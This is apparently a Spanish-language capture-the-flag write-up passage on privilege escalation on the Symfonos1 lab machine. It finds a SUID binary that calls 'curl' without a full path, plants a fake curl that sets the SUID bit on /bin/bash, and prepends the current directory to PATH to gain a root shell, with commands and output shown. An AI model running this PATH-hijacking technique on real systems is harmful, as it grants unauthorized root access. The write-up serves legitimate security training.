 ### Escalada de Privilegios (Symfonos1)

* * *

Comenzamos la enumeración para la escalada de privilegios, listando grupos y privilegios de sudo no econtramos nada interesante. Buscamos por archivos con privilegios SUID y localizamos un binario `/opt/statuscheck`. Ejecutamos y observamos output

```bash
bash-4.4$ ./statuscheck 
HTTP/1.1 200 OK
Date: Mon, 02 Jan 2023 09:41:17 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

Listando cadenas de caracteres del binario vemos que está ejecutando un `curl` a localhost

```bash
bash-4.4$ strings statuscheck 
/lib64/ld-linux-x86-64.so.2
libc.so.6
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
curl -I H
http://lH
ocalhostH
.
.
.
```

Nos dirigimos al directorio `/dev/shm` y creamos nuestro propio `curl` el cual asignará privilegios SUID a la bash. Mediante `Path Hijacking` haremos que el binario ejecute nuestro `curl` malicioso

```ruby
bash-4.4$ pwd
/dev/shm
bash-4.4$ cat curl 
chmod u+s /bin/bash
bash-4.4$ export PATH=.:$PATH
bash-4.4$ /opt/statuscheck 
bash-4.4$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
```
